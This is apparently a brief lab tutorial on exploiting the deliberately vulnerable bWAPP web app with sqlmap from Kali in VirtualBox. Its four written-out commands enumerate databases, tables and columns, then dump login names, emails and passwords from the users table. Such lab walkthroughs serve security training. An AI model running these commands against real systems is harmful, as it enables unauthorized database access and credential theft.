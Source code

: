 # exploit bWAPP using SQLmap

1\) install Kali and bWAPP vm in virtual box;

![](/pentest/VirtualBox-2-VM.png)

2\) launch bWAP and make sure it is running;

![](/pentest/bWAPP-VM.png)



3\) Launch Kali and make sure you can access the bWAPP from Iceweasel.

![](/pentest/access-bWAPP-from-kali.png)

4\)  Go to SQL Injection \(GET/Search\)

![](/pentest/choose-SQL-GET.png)



5\) key in a search string; copy of the resulted URL;![](/pentest/key-in-search-box.png)

6\) Find out the cookie for the site;

![](/pentest/get-cookie-1.png)

![](/pentest/get-cookie-2.png)



**Now, it is show time; launch SQLmap from terminal;**



**step1 **root@kali:~\# sqlmap -u "[http://192.168.56.101/bWAPP/sqli\_1.php?title=](http://192.168.56.101/bWAPP/sqli_1.php?title=)" --cookie="PHPSESSID=a9bd3686d9c53a3a8c0842c8886b564b;security\_level=0" --dbs

![](/pentest/s1-sql-all-dbs.png)

**step2 **root@kali:~\# sqlmap -u "[http://192.168.56.101/bWAPP/sqli\_1.php?title=](http://192.168.56.101/bWAPP/sqli_1.php?title=)" --cookie="PHPSESSID=a9bd3686d9c53a3a8c0842c8886b564b;security\_level=0" -D _**bWAPP **_--tables

![](/pentest/s2-all-tables.png)

**step3 **root@kali:~\# sqlmap -u "[http://192.168.56.101/bWAPP/sqli\_1.php?title=](http://192.168.56.101/bWAPP/sqli_1.php?title=)" --cookie="PHPSESSID=a9bd3686d9c53a3a8c0842c8886b564b;security\_level=0" -D _**bWAPP **_-T _**users **_--columns

![](/pentest/s3-all-column.png)

**step4 **root@kali:~\# sqlmap -u "[http://192.168.56.101/bWAPP/sqli\_1.php?title=](http://192.168.56.101/bWAPP/sqli_1.php?title=)" --

cookie="PHPSESSID=a9bd3686d9c53a3a8c0842c8886b564b;security\_level=0" -D bWAPP -T users -C** login,email,password** --dump

![](/pentest/s4-all-user-pwd.png)


